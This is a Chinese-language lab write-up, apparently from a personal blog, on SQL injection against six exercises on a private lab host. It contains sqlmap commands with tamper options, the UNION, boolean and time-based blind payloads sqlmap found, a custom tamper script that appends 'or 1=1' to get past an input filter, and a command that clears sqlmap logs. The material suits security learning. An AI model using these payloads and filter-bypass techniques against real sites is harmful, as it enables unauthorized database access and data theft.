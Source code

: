 ```yaml
---
title: Mysql数据库-sql injection
categories:
- web
tags:
- web
---
```


## 案例一：
`http://192.168.2.131/sqli/example1.php?name=root`

## 手工判断是否有注入
一般来说，报错型注入是最好判断的。

通过**添加单引号**，页面返回内容，发现**和正常情况下不同**。虽然并没有报错，但可以用sqlmap检测一下。

通过添加 **+**，mysql中，+代表空格。
name=root+++，而网页显示正常，说明将注入的字符解析为空格了。

#### sqlmap工具检查
`sqlmap -u "http://192.168.2.131/sqli/example1.php?name=root" --dbs`
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/1.PNG)
```
Parameter: name (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: name=root' UNION ALL SELECT NULL,CONCAT(CONCAT('qkxxq','KmpPokTYtZMOrkRgRUoPJDbxcbjTRzrokLLlMQen'),'qjvbq'),NULL,NULL,NULL-- PXHF
```

## 案例二：
`http://192.168.2.131/sqli/example2.php?name=root`
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/2.PNG)

- 首先用sqlmap检查下，结果一片标红。

- `http://192.168.2.131/sqli/example2.php?name=root/*aaa*/`

- `name=root%0a` \n换行符

- `name=root%09` \t

#### burp intruder观察响应
观察一下响应。手工判断有点慢，用burp判断下
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/3.PNG)

分为三种响应，一种是和原请求响应一样的；一种响应查询失败的；一种“error no space”

注意到union select ---------“error no space”
union-------------“error no space”
说明空格被过滤

- 添加空格转/**/脚本
sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper space2comment.py --dbs
扫描失败

- 指定布尔型注入
sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper=space2comment.py -technique B --dbms mysql --level 5

- 添加一个参数--dbms mysql，指定使用的payloads。
`sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper=space2comment.py --dbms mysql -v`
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values?

```
Parameter: name (GET)
    Type: AND/OR time-based blind 基于时间的盲注
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=root' AND SLEEP(5) AND 'WCkk'='WCkk
    Vector: AND [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])

```
#### 删除sqlmap日志
rm -rf /root/.sqlmap/output/*

sqlmap -u "http://192.168.2.131/sqli/example5.php?id=2" --dbs

#### 总结
sqlmap如果一开始扫描失败，如果需要再次尝试，需要清除一下日志，否则会直接引用历史扫描结果，不会再次扫描。

如果不指定数据库，或者注入类型，waf过滤的字符，就很容易扫描失败。
但这不代表并不存在注入。

## 案例三：

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/5.PNG)
经过intruder判断，和上一个案例，多过滤了`%0a`即\n换行符。

同样用时间盲注。
sqlmap -u "http://192.168.2.131/sqli/example3.php?name=root" --tamper=space2comment.py --dbms mysql --dbs

```
Parameter: name (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=root' AND SLEEP(5) AND 'nZha'='nZha

```
## 案例四：

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/6.PNG)
`http://192.168.2.131/sqli/example4.php?id=2`
注释被正确解析了，其他都都导致页面查询失败。

- sqlmap -u "http://192.168.2.131/sqli/example4.php?id=2" --dbms mysql --dbs

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: id=(SELECT (CASE WHEN (5063=5063) THEN 5063 ELSE 5063*(SELECT 5063 FROM INFORMATION_SCHEMA.PLUGINS) END))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=2 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=2 UNION ALL SELECT NULL,NULL,CONCAT(0x716b6b6a71,0x6c4e495452554c4e514b6f53784f6c5a6b664e4d53674176646b4d4e4a4f52547850714663686d68,0x71766b7a71),NULL,NULL-- XTiX

```
## 案例五：
和上一个案例差不多。成功解析注释。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/7.PNG)

注入类型： Type: AND/OR time-based blind
sqlmap -u "http://192.168.2.131/sqli/example5.php?id=2" --dbms mysql --dbs

## 案例六：

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/8.PNG)
%0a换行符、#注释符被正确解析。
错误提示：ERROR INTEGER REQUIRED

#### **选择与创建tamper脚本**
/usr/share/sqlmap/tamper目录下，有很多脚本可以帮助绕过过滤。

没有找到空格直接转换行符的脚本，于是观察一下空格转注释的脚本。运行sqlmap时候，用wireshark抓包一下。
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/9.PNG)

![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/10.PNG)
确认空格转换为/**/，我们可以新建一个脚本，替换一下注释为换行符。
`cp space2comment.py space2newline.py`
`sed -i 's/\/\*\*\//%0a/g' space2newline.py`

- sqlmap -u "http://192.168.2.131/sqli/example6.php?id=2" --dbms mysql --tamper=space2newline.py --dbs 
失败了，于是尝试
?id=2%0Aand%0A1=1 一切正常
?id=2%0Aand%0A1=2 查询失败

#### **源代码**
黑盒测试不知道过滤条件，做不出了，于是看下源代码。

下面这条源代码还蛮好懂的，`^$`在正则表达式中，代表开头和结尾。

`^b`，表示以b开头；`b$`表示以b结尾。
```
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

#### **重写一个tamper脚本**
sqlmap -u "http://192.168.2.131/sqli/example6.php?id=2" --dbms mysql --tamper=addTrue.py --dbs 


这次成功了，基于时间的盲注。
```
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=2 AND SLEEP(5)-- jExG

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=2 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7071,0x6c6c5a494a6370686e4a6d5662726c49796e686a7455456745526e48654278634d57426b7467746a,0x7170626271),NULL,NULL-- RmtZ
```
## `addTrue.py`

```
#coding:utf-8
#!/usr/bin/env python

"""
Copyright (c) 2006-2017 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Notes:
        * Useful to bypass weak and bespoke web application firewalls

    >>> tamper('SELECT id FROM users')
    'SELECT id FROM users or 1=1'
    """

    retVal = payload

    if payload:
        retVal = payload+ " or 1=1"

    return retVal
```

